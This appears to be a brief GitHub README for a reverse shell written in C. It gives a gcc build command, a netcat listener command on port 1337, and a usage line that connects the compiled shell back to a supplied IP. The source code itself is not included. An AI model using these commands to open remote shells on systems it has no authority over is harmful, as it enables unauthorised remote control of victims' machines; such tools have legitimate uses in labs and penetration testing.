 # Simple Reverse Shell
A run of the mill reverse shell written in C.

## Building
```
gcc -o reverse-shell reverse-shell.c
```

## Using
``Host machine (With netcat)``
```
nc -l -p 1337
```

``Client machine:``
```
./reverse-shell <ip> 1337
```
